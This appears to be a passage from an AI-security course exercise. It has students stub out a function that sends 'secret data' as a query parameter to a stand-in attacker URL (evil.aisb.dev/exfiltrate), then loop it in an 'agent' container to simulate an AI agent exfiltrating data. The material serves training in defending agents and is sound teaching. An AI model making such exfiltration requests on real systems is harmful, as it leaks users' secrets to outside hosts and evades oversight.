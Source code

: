 ```python
    The secret data is sent as a query parameter.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails or throws
    """
    # TODO: Implement the function to:
    #   1. Make a GET request to http://evil.aisb.dev/exfiltrate?data=secret_data
    #      - to ensure tests pass, use `requests.get(url, params=..., timeout=5)`
    #      - if the tests fail and you are pretty sure you are making the correct request, you can ignore the first test
    #   2. Return the response text if successful (status 200), None otherwise
    pass
from w1d2_test import test_make_evil_request
test_make_evil_request(make_evil_request)

exfiltrate_data = make_evil_request
```

#### Exercise 1.1: Keep the Agent Running
At this point, you have a function that simulates an AI agent trying to exfiltrate data by making HTTP requests to an external server. Let's run it continuously from the `agent` container.

**Add the following code to your `w1d2_answers_agent.py` file** to run the agent:


```python

if __name__ == "__main__":  # Only executed when running the script directly
    """
    Make requests to the evil server with different secret data.
    This simulates an AI agent repeatedly trying to exfiltrate data.
    """

    def loop_exfiltration():
        while True:
            global exfiltrate_data
            try:
                time.sleep(5)
                print(exfiltrate_data("some_secret_data"))
            except KeyboardInterrupt:
                print("Stopping exfiltration loop.")
                break

    import threading
    thread = threading.Thread(target=loop_exfiltration)
    thread.start()
```

The Dockerfile and docker-compose.yaml files are already created for you to run the agent container.
